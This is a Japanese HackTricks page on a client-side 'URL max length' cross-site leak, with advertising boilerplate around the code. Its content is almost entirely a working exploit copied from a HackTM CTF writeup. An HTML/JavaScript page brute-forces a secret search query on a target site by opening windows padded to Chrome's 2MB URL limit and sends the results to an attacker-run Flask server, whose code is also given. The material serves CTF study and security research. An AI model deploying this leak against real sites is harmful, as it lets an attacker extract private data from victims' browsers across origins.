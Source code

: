 # URL Max Length - クライアントサイド

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または**最新バージョンのPEASSにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションをご覧ください
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れましょう
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>

Code from [https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit](https://ctf.zeyu2001.com/2023/hacktm-ctf-qualifiers/secrets#unintended-solution-chromes-2mb-url-limit)
```html
<html>
<body></body>
<script>
(async () => {

const curr = "http://secrets.wtl.pw/search?query=HackTM{"

const leak = async (char) => {

fetch("/?try=" + char)
let w = window.open(curr + char +  "#" + "A".repeat(2 * 1024 * 1024 - curr.length - 2))

const check = async () => {
try {
w.origin
} catch {
fetch("/?nope=" + char)
return
}
setTimeout(check, 100)
}
check()
}

const CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"

for (let i = 0; i < CHARSET.length; i++) {
leak(CHARSET[i])
await new Promise(resolve => setTimeout(resolve, 50))
}
})()
</script>
</html>
```
サーバーサイド:
```python
from flask import Flask, request

app = Flask(__name__)

CHARSET = "abcdefghijklmnopqrstuvwxyz-_0123456789"
chars = []

@app.route('/', methods=['GET'])
def index():
global chars

nope = request.args.get('nope', '')
if nope:
chars.append(nope)

remaining = [c for c in CHARSET if c not in chars]

print("Remaining: {}".format(remaining))

return "OK"

@app.route('/exploit.html', methods=['GET'])
def exploit():
return open('exploit.html', 'r').read()

if __name__ == '__main__':
app.run(host='0.0.0.0', port=1337)
```
<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>からAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

* **サイバーセキュリティ企業**で働いていますか？ **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたい**、またはHackTricksをPDFでダウンロードしたいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つけてください
* [**公式PEASS＆HackTricksスウェグ**](https://peass.creator-spring.com)を手に入れましょう
* **[💬](https://emojipedia.org/speech-balloon/) Discordグループ**に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローする🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**
* **ハッキングトリックを共有するために、**[**hacktricksリポジトリ**](https://github.com/carlospolop/hacktricks) **と** [**hacktricks-cloudリポジトリ**](https://github.com/carlospolop/hacktricks-cloud) **にPRを提出してください。**

</details>
